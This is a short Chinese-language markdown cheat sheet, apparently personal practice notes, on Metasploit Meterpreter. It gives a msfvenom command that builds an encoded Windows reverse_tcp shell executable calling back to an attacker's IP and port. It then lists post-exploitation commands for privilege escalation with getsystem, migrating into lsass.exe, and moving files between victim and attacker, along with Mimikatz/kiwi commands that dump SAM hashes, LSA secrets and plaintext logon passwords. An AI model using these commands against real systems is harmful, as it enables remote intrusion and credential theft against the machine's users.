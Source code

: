 # Meterpreter 練習

## 產 Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT={PORT} -f exe -e x86/shikata_ga_nai > {FILE}
```

## 執行
- 記得 Payload 需要修改成相對應的
    - `windows/meterpreter/reverse_tcp`
    - ![](https://i.imgur.com/FJlpYFJ.png)

## 常見指令
- `ls`,`pwd` , `mkdir`, `cat`
    - BJ4
- `getuid`
    - ![](https://i.imgur.com/R2Sovvj.png)
    - 取得使用者名稱
- `edit {檔名}`
    - 會直接開啟 vim 可以改檔案
- `sysinfo`
    - 系統資訊
- `getsystem`
    - 如果有過 UAC 的話，有機率可以直接拿 system
    - 執行後輸入 `getuid` 就可以確認自己是否真的是 system 了
- `ps`
- `migrate {PID}`
    - 可以讓自己爬到 x64 之類的 system 權限上
    - 例如 lsass.exe 的 PID
- `screenshot`
    - 截圖
    - 需要是當前使用者，不能是 system 之類
- `upload {檔案}` / `download {檔案}`
    - upload -> attacker to victim
    - download -> victim to attacker
## Mimikatz
- 需要是 system 權限
- `load kiwi`
- `help kiwi`
- `lsa_dump_sam`
    - 取 Hash
- `lsa_dump_secrets`
    - 取明文密碼
- `kiwi_cmd sekurlsa::logonpasswords`
    - 需要先 migrate 到 x64 上
